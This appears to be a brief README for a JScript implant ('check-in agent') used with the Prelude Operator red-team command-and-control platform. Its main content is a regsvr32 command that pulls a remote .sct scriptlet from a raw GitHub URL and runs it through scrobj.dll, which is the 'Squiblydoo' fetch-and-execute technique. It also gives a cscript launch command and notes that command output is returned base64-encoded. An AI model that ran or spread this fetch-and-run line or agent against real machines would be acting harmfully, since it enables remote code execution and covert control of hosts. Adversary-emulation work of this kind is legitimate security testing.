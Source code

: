 ## Examples in JScript.

The simple agent checkin_minimalist.js, supports the cmd executor.

`cscript.exe checkin_minimalist.js`

## COM Scriptlet

`regsvr32.exe /s /u /i:https://raw.githubusercontent.com/secdev-01/PreludeOperator_QuickCheck/main/jscript/prelude_checkin.sct scrobj.dll`

## cscript

`cscript checkin_minimalist.js`

Create a simple TTP that uses cmd executor

<img width="1000" alt="Screen Shot 2021-06-26 at 5 22 51 PM" src="https://user-images.githubusercontent.com/83469949/123528231-33159d80-d6a3-11eb-8cc3-2ccd2311c170.png">

STDOUT is returned as base64 encoded, so we don't have to deal with all the escaping etc...

Screen Shot 2021-06-26 at 5.17.40 PM<img width="777" alt="Screen Shot 2021-06-26 at 5 17 40 PM" src="https://user-images.githubusercontent.com/83469949/123528256-5f311e80-d6a3-11eb-90e2-c8cc0140eacf.png">


```
There is alot more to do here to make it more production ready, but in a sense these are some really simple building blocks

```

